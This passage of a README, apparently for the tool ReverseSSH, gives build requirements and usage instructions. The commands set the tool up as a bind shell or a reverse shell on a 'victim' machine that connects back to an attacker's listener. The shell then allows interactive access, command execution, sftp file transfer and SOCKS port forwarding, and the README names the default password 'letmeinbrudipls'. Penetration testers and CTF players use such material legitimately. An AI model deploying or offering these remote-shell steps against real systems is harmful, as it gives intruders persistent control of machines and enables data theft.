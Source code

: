 * **Linux**: kernel version 2.6.23 and higher
* **Windows**: Windows Server 2008R2 and higher or Windows 7 and higher

Compiling additionally requires the following:

* golang version 1.15
* optionally `upx` for compression (e.g. `apt install upx-ucl`)


## Usage

Once `reverse-ssh` is running on the victim, you can connect with any username and the default password `letmeinbrudipls`, the ssh key or whatever you specified during compilation.
After all, it is just an ssh server:

```
# Fully interactive shell access
$ ssh -p <RPORT> <RHOST>

# Simple command execution
$ ssh -p <RPORT> <RHOST> whoami

# Full-fledged file transfers
$ sftp -P <RPORT> <RHOST>

# Dynamic port forwarding as SOCKS proxy on port 9050
$ ssh -p <RPORT> -D 9050 <RHOST>
```

### Running ReverseSSH as bind shell

```
# Victim
victim$ ./reverse-ssh

# Attacker (default password: letmeinbrudipls)
attacker$ ssh -p 31337 <RHOST>
```

### Running ReverseSSH as reverse shell

Note: you can compile ReverseSSH with parameters for LHOST and LPORT to ease execution on the target, [see below](#build-tricks)

```
# On attacker (get ready to catch the incoming request;
# can be omitted if you already have an ssh daemon running, e.g. OpenSSH)
# NOTE: LPORT of 8888 collides with incoming connections; use the flag `-b 8889` or similar on the victim in that case
attacker$ ./reverse-ssh -v -l -p <LPORT>

# On victim
victim$ ./reverse-ssh -p <LPORT> <LHOST>
# or in case of an ssh daemon listening at port 22 with password authentication for user 'kali'
victim$ ./reverse-ssh -p 22 kali@<LHOST>

# On attacker (default password: letmeinbrudipls)
attacker$ ssh -p 8888 127.0.0.1
# or with ssh config from below
attacker$ ssh target
```
